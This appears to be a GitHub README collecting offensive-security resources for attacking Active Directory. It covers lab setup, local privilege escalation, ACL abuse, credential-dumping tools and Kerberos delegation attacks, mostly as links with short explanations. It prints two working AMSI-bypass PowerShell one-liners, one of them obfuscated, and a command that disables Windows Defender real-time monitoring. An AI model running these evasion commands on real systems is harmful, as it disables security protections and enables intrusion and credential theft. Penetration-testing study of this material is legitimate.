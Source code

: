 # AD-Security-Resources

<p><h2>Setting up active directory lab :</h2>
<p>https://github.com/outflanknl/Invoke-ADLabDeployer 
<p> AutomatedLab - Works good for small labs based on HyperV
 
<p><h2>Local Computer Enumeration and Privesc : </h2>

<p>1. Bypass Execution Policy : 

<p>One of the 15 methods mentioned in the blog usually works.. </p>
<p>https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/

<u>Notes :</u> Bypassing Powershell execution policy issues : </H2>


<p>2. AMSI Bypass for loading malicious scripts:
<p>  https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell </p>
<u>Few scripts that usually works quickly </u>
<p>sETItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} ) </p>

<p>[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)</p>

<u>Detailed Article on this subject : </u>
https://blog.f-secure.com/hunting-for-amsi-bypasses/
https://burmat.gitbook.io/security/hacking/domain-exploitation#user-and-computers-with-unconstrained-delegation

<p>3. Constrained Language Mode :</p> 
Constrained Language consists of a number of restrictions that limit unconstrained code execution on a locked-down system.  (https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)

https://github.com/padovah4ck/PSByPassCLM
https://chickenpwny.github.io/concepts/bypass/

<p>4. Turning of Windows Defender - Real Time Monitoring (for not letting exploits to be deleted):</p>
Set-MpPreference -DisableRealtimeMonitoring $true

<p>5. Privesc on Local Computer </p>
Run Invoke-AllChecks 
<p>PowerView / Powersploit: https://github.com/PowerShellMafia/PowerSploit</p>


<H2>Domain Enumeration</h2>

<p><h3>1. ACL Enumeration and escalation :</h3></p>
<p>Some of the Active Directory object permissions and types that we as attackers are interested in:</p>
<p><b>GenericAll</b> - full rights to the object (add users to a group or reset user's password)
<p><b>GenericWrite</b> - update object's attributes (i.e logon script)
<p><b>WriteOwner</b> - change object owner to attacker controlled user take over the object
<p><b>WriteDACL</b> - modify object's ACEs and give attacker full control right over the object
<p><b>AllExtendedRights</b> - ability to add user to a group or reset password
<p><b>ForceChangePassword</b> - ability to change user's password
<p><b>Self (Self-Membership)</b> - ability to add yourself to a group
https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces

AD Module :
  https://github.com/samratashok/ADModule

<p>2. Bloodhound - Visualizing the attack patch and AD Objects
  https://github.com/BloodHoundAD/SharpHound
  https://github.com/BloodHoundAD/BloodHound

Lateral Movement Automation using Bloodhound data :
  https://github.com/GoFetchAD/GoFetch

<p>3. Tools for Credential Dumping for all attacks (PTH, Kerberoasting, Golden Ticket Attack, Silver Ticket Attack, Skeleton Key Attack:
Mimikatz : https://github.com/gentilkiwi/mimikatz

Spraykatz - Credentials gathering tool automating remote procdump and parse of lsass process
  https://github.com/aas-n/spraykatz

Mimikittenz - Reading credentians from process :
  https://github.com/putterpanda/mimikittenz

Benjamin Delpy's Kekeo 
  https://github.com/gentilkiwi/kekeo/

Vincent LE TOUX's MakeMeEnterpriseAdmin
  https://github.com/vletoux/MakeMeEnterpriseAdmin

Rubeus :
  https://github.com/GhostPack/Rubeus

<p>4. Generate HTML report of AD Security Posture - Pingcastle :
  https://github.com/vletoux/pingcastle

<p>5 Delegation attacks 

<p>5.1 Unconstrained Delegation
When a user authenticates to a computer that has unresitricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory. It will be possible to extract the same once the system is compromised.
 
<p>5.2 Constrained Delegation
If you have compromised a user account or a computer (machine account) that has kerberos constrained delegation enabled, it's possible to impersonate any domain user (including administrator) and authenticate to a service that the user account is trusted to delegate to.

<p>5.3 Resource Based Constrained Delegation
It's possible to gain code execution with elevated privileges on a computer if you have WRITE privilege on that computer's AD object.
 
<p><h2> References : </h2>
Huge list of AD security resources available below :
  https://adsecurity.org/
  https://www.harmj0y.net/
  https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
  https://beta.hackndo.com/

